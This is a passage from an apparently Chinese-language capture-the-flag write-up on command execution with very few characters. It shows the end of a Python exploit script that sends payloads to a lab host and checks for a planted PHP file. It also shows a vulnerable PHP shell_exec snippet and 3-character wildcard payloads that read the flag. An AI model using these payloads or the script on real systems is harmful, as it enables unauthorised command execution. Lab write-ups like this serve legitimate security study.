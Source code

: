 ```python
        for i in f:
            print("[*]" + url.format(i.strip()))
            requests.get(url.format(i.strip()))
            #检查是 否攻击成功
    test = requests.get("http://192.168.12.107/4/sandbox/2ad26c4b0f3cdead3c4c1955ad805b8d/1.php")
    if test.status_code == requests.codes.ok:
        print("[*]Attack success!!!")
    lock.release() #释放

if __name__ == '__main__':
    t = threading.Thread(target=exp)
    t.start()
```

但需要多尝试几次，这个成功的几率比5位的还略小一些，暂时不清楚为什么，可能跟系统版本有关系。

## 3位可控字符的命令执行

这个知识点来自CTFSHOW平台的【nl】难了 一题

```php
<?php
show_source(__FILE__);
error_reporting(0);
if(strlen($_GET[1])<4){
     echo shell_exec($_GET[1]);
}
else{
     echo "hack!!!";
}
?>
```

只限3个字符的shell_exec，依然利用通配符 * 表示将ls下面的文件执行，如果第一个是命令就直接执行命令，后面的当参数，与前几点的原理类似

首先ls查看当前目录下有哪些文件  ?1=ls

只存在s开头的和z开头的文件，Linux中文件排序按照26个英文字母顺序排放，所以我们依然利用前几种字符限制的方法，通过>写入一个以命令名命名的文件，如:nl（读取文件带上行）od（八进制显示输出），但这样的命令前提是其第一个字母必须在当前文件名中排到第一位。

payload:?1=>nl ?1=*或?1=*>z 第二种：?1=>od ?1=*

接下来再传入?=*的时候就会在源代码中得到flag。